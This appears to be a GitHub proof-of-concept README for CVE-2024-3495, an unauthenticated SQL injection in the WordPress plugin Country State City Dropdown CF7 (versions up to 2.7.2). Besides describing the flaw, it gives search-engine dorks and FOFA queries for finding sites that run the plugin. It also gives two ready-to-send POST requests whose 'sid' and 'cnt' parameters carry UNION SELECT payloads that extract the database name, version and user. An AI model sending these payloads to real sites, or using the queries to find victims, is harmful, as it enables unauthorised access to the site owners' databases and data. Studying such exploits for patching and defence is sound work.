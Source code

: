 # CVE-2024-3495-Poc
CVE-2024-3495 Country State City Dropdown CF7 &lt;= 2.7.2 - Unauthenticated SQL Injection

File: https://github.com/truonghuuphuc/CVE-2024-3495-Poc/blob/main/country-state-city-auto-dropdown.zip

Description

The Country State City Dropdown CF7 plugin for WordPress is vulnerable to SQL Injection via the ‘cnt’ and 'sid' parameters in versions up to, and including, 2.7.2 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query

https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/country-state-city-auto-dropdown/country-state-city-dropdown-cf7-272-unauthenticated-sql-injection

```inurl:"/wp-content/plugins/country-state-city-auto-dropdown/"```

```
https://x.com/fofabot/status/1793477848428364155
FOFA Query: body="/wp-content/plugins/country-state-city-auto-dropdown/"
https://en.fofa.info/result?qbase64=Ym9keT0iL3dwLWNvbnRlbnQvcGx1Z2lucy9jb3VudHJ5LXN0YXRlLWNpdHktYXV0by1kcm9wZG93bi8i
```

File: includes\ajax-actions.php
![image](https://github.com/truonghuuphuc/CVE-2024-3495-Poc/assets/20487674/e29eb5d1-c90d-4f79-8409-cccd213ac18c)

Found nonce
![image](https://github.com/truonghuuphuc/CVE-2024-3495-Poc/assets/20487674/c605bb8f-65f7-4425-84d7-ac9285568be7)


Poc:

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: <Host>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 172

action=tc_csca_get_cities&nonce_ajax={{nonce}}&sid=1+or+0+union+select+concat(0x64617461626173653a,database(),0x7c76657273696f6e3a,version(),0x7c757365723a,user()),2,3--+-
```

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: <Host>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 172

action=tc_csca_get_states&nonce_ajax={{nonce}}&cnt=1+or+0+union+select+concat(0x64617461626173653a,database(),0x7c76657273696f6e3a,version(),0x7c757365723a,user()),2,3--+-
```

![image](https://github.com/truonghuuphuc/CVE-2024-3495-Poc/assets/20487674/350142b4-e5d2-43a2-a266-9cc5fd846f7c)

![image](https://github.com/truonghuuphuc/CVE-2024-3495-Poc/assets/20487674/8e8053b3-2185-4a6e-983b-84afbab385b4)
